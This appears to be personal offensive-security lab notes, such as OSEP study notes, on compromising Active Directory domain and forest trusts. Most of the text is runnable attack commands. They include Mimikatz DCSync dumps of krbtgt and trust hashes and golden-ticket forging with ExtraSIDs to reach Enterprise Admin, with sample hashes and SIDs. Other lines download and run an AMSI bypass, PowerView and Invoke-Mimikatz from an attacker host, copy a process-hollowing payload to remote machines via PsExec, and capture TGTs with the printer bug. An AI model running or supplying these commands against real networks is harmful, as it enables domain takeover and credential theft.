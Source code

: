 ### Theory & Enumeration
    //Theory:
        //allows domains to extend Kerberos authentication to each other - TGT from A is valid in B if B trusts A
        //can be one-way or two-way
        //tree structure - common
            //trust is transitive
        **Target: Enterprise Admins
    //Enumeration Trusts:
        //Method 1:  nltest /trusted_domains
            //Primary Domain = current domain
            //Direct Outbound & Direct Inbound = bidirectional trust
        //Method 2:  ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
        //Method 3 - PowerView:  Get-DomainTrust -API
            //From that next domain (if it isn't root):  Get-DomainTrust -API -Domain <abc.com>
        //Method 4:  Get-DomainTrust
        //Further enum w/ PowerView:
            ex.  Get-DomainUser -Domain corp1.com;  Get-NetGroupMember -GroupName "Enterprise Admins"

### Exploiting within a Forest
**Should be possible by default**
**WITHIN A FOREST - EX. ops.abc.com and abc.com - NOT abcedge.com and abc.com**

    //Exploitation:
        //Method 1: After compromising current domain, can create Enterprise Admin golden ticket via ExtraSID feature
        //Method 2: If local admin on server with Unconstrained Delegation, use Rubeus & PrintSpoofer to exploit new DC
        //Method 3: If no server w/ UD (but have domain admin), add a UD server and use PrintSpoofer exploit

    1. Owning the Forest w/ Extra SIDs - getting to Enterprise Admin via golden ticket:
        //If we compromise the krbtgt account password of our current domain, we can craft a golden ticket that contains an ExtraSid with group membership of Enterprise Admins.
        //assuming we've already compromised the current domain, we can create a TGT w/ group memberships from other domains
            //the ExtraSids field within the KERB_VALIDATION_INFO structure includes SIDs that originate in a foreign domain and show membership in a trusted domain
        //in a trust relationsip, each domain has a computer account with the name of the trusted other domain
            //the shared secret is the password hash of this account - same for both sides - used to encrypt the TGT instead of krbtgt hash
        //Dumping the shared secret/hash:
            lsadump::dcsync /domain:prod.corp1.com /user:corp1$

        //Steps:
            1. Get krbtgt hash via DCSync:
                lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
            2. Get domain SIDs for both domains:
                (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX
                (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/PowerView.ps1') | IEX
                Get-DomainSID -Domain prod.corp1.com
                Get-DomainSID -Domain corp1.com
            3. Create golden ticket:
                (append 519 to sid for other domain)
                //username doesn't have to be valid - 519 makes us an enterprise admin
                // /domain is origin domain
                \\192.168.49.121\visualstudio\mimikatz.exe
                kerberos::golden /user:h4x /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
                //Test:
                    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd; whoami /all
                //Mimikatz in memory:
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/Invoke-Mimikatz10.ps1') | IEX
                    Invoke-Mimikatz -Command '"kerberos::golden /user:h4x /domain:ops.abc.com /sid:S-1-5-21-2032401531-514583578-4118054891 /krbtgt:7c7865e6e30e54e8845aad091b0ff447 /sids:S-1-5-21-1135011135-3178090508-3151492220-519 /ptt" "exit"'
                //RCE:
                    copy \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\rdc02.abc.com\c$\windows\tasks
                    \\192.168.49.121\visualstudio\sysinternals\PsExec64.exe -accepteula \\rdc02.abc.com "c:\windows\tasks\Hollow.exe"

        //Other Method using Trust key:
            https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72
            Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc-name
            Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator /domain: dollarcorp.moneycorp.local [child_domain] /sid: DomainAdmin_SID /sids: Enterprise_Admin_SID /rc4: Ticket HASH /service:krbtgt /target:moneycorp.local [root domain] /ticket: location to save the ticket"'
            Rubeus.exe asktgs /ticket: ticket Location /service: service type [cifs/mcorpdc.moneycorp.local] /dc: domain controller [mcorp-dc.moneycorp.local] /ptt
            dir \\mcorp-dc.moneycorp.local\c$
            
    2. Owning the Forest w/ Printers:
        //requires a server w/ Unconstrained Delegation
        //doesn't require Domain Admin (just local) - unless there's no UD server (then we could add one)
        //Steps:
            1. Confirm access to tgt DC spooler in other domain:
                ls \\rdc01\pipe\spoolss
            2. Start ticket monitor:
                Rubeus.exe monitor /interval:5 /filteruser:RDC01$
            3. Force print connection:
                .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
            4. Use TGT:
                Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
                    (can't use DC computer account for RCE, but can use it for AD replication via DCSync to get admin's hash)
                lsadump::dcsync /domain:corp1.com /user:corp1\administrator

        **if we obtain Domain Admin privileges in prod.corp1.com through some other vector, we could configure a server with unconstrained Kerberos delegation and use that to compromise any other domain in the forest.

### Exploiting Additional Forests
**Forest is a trust boundary - typically requires misconfigurations to exploit!**

    //Enumeration:
        1. AD Trust Between Forests:
            //similar to that between domains, but can be restricted if selective authentication is configured
        2. Enumeration:
            1. Find Trusts:
                //Check for Trusts:
                    ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
                //Check for trusts in child domains of the other forest from corp1.com:
                    Get-DomainTrust -Domain corp1.com
                //*Automated:
                    Get-DomainTrustMapping
            2. Enumerate users/groups/etc. in the trusted forest:
                Get-DomainUser -Domain corp2.com | select name
                //***Look for users with same accounts in different forests - could share creds - service accts or regular users
                //****Look for foreign group membership of local users:
                    Get-DomainForeignGroupMember
                    Get-DomainForeignGroupMember -Domain <otherDomain>
                        convertfrom-sid S-1-5-21-3776646582-2086779273-4091361643-1601
                    //If we compromise the local user, we could gain access to the other forest (corp2.com)

    **a trust means auth requests are forwarded between them
    **External trusts enforce SID filtering - but you can still query AD in the other domain even if you can't exploit

    //Exploitation:
            //forest trust is supposed to be a security boundary, unlike domain trust
                //by default it is not possible to compromise a trusted forest even if we have completely compromised our current forest
        1. Extra SIDs:
            //SID Filtering prevents the cross-domain attack, but it could be manually disabled (and SID History enabled)
                //Check if enabled:  netdom trust <current.Domain.com> /domain:<tgtDomain.com> /quarantine
            //To Weaken - Enable SID History:
                Get-DomainTrust -Domain corp2.com
                //From corp2.com DC:  netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
                Get-DomainTrust -Domain corp2.com
            //Try the Attack:
                //only works against SIDs w/ RID >= 1000
                    //look for custom group whose membership will allow us to compromise a user or computer (ex. a non-default admin group):
                        Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
                        //*the custom group must be a domain local security group, not a global security group (otherwise still filtered)
                lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
                Get-DomainSID -domain corp1.com
                Get-DomainSID -domain corp2.com
                kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1095350385-1831131555-2412080359 /krbtgt:22722f2e5074c2f03938f6ba2de5ae5c /sids:S-1-5-21-4182647938-3943167060-1815963754-1106 /ptt        
                c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
        2. Linked SQL Servers in the Forest:
            //Locating Servers:
                //In my domain (prod.corp1.com):  setspn -T prod -Q MSSQLSvc/*
                //In my forest (corp1.com):  setspn -T corp1 -Q MSSQLSvc/*
                //In another forest (corp2.com):  setspn -T corp2 -Q MSSQLSvc/*
            //Attempt to log in with SQL.exe ...
            //Check for links and follow the link - check for new privs like before
